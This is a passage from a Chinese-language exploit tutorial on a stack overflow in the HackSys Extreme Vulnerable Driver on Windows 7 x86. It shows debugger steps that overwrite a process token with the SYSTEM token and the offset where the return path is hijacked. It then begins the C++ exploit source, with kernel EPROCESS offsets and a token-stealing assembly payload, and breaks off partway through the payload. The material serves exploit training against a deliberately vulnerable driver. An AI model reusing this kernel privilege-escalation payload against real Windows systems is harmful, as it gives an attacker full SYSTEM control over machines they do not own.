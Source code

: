 我们可以通过!process命令验证我们的值是否正确。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01b06c69f6d3c19e52.png)

之后，我们可以在记事本进程的0xf8处输入系统令牌值到令牌偏移量。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01fc9b2a7e2df2ea44.png)

现在，如果我们检查Process Explorer，我们可以看到Notepad.exe作为'NT AUTHORITY / SYSTEM'运行。

[![](https://p1.ssl.qhimg.com/t019be3063d163840e9.png)](https://p1.ssl.qhimg.com/t019be3063d163840e9.png)

<br>

**最终的利用代码**

我们映射shellcode函数的地址，以便EIP将跳转到它并执行我们的shellcode。为了确保一切正确，我们可以在调试器中进行分析。我们先来获取'lpInBuffer'的地址。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f5d3fe4353f6e977.png)

在偏移2076是EBP覆盖，之后它应该包含指向shellcode函数的指针。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012bea5ccc02a1f830.png)

让我们重新组装这个指针。

[![](https://p4.ssl.qhimg.com/t01556ba64c5b1ff7bb.png)](https://p4.ssl.qhimg.com/t01556ba64c5b1ff7bb.png)

是的，如果一切正确，它应该指向我们的shellcode函数。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t019ce75a55e8703d24.png)

C++版利用代码



```
//https://github.com/OsandaMalith/Exploits/blob/master/HEVD/StackOverflowx86.cpp
#include "stdafx.h"
#include &lt;Windows.h&gt;
#include &lt;Shlobj.h&gt;
#include &lt;string.h&gt;
/*
 * Title: HEVD x86 Stack Overflow Privelege Escalation Exploit
 * Platform: Windows 7 x86
 * Author: Osanda Malith Jayathissa (@OsandaMalith)
 * Website: https://osandamalith.com
 */
#define KTHREAD_OFFSET     0x124  // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET    0x050  // nt!_KTHREAD.ApcState.Process
#define PID_OFFSET         0x0B4  // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET       0x0B8  // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET       0x0F8  // nt!_EPROCESS.Token
#define SYSTEM_PID         0x004  // SYSTEM Process PID
VOID TokenStealingPayloadWin7() `{`
    __asm `{`
            pushad; Save registers state
            xor eax, eax; Set ZERO
            mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
            mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process
```